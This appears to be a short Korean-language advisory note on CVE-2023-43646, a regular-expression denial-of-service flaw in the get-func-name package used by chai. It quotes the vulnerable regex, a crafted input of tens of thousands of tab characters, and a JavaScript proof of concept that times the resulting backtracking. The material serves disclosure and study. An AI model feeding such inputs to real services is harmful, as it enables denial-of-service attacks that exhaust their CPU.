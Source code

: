 # CVE-2023-43646



## 취약점 개요

- CVE-2023-43646

- CVSS : 8.6

- Sep 26, 2023

- ReDoS in node.js package

- rebob 프로젝트의 일환

## 취약점 설명

[github advisories](https://github.com/chaijs/get-func-name/security/advisories/GHSA-4q6p-r6v2-jvc5)

```
/\sfunction(?:\s|\s/[^(?:*\/)]+/\s*)*([^\(\/]+)/
```

This vulnerability can be exploited when there is an imbalance in parentheses, which results in excessive backtracking and subsequently increases the CPU load and processing time significantly. This vulnerability can be triggered using the following input:

```
'\t'.repeat(54773) + '\t/function/i'
```

Here is a simple PoC code to demonstrate the issue:

```
const protocolre = /\sfunction(?:\s|\s/[^(?:*\/)]+/\s*)*([^\(\/]+)/;

const startTime = Date.now();
const maliciousInput = '\t'.repeat(54773) + '\t/function/i'

protocolre.test(maliciousInput);

const endTime = Date.now();

console.log("process time: ", endTime - startTime, "ms");
```


[target package](https://www.npmjs.com/package/chai)
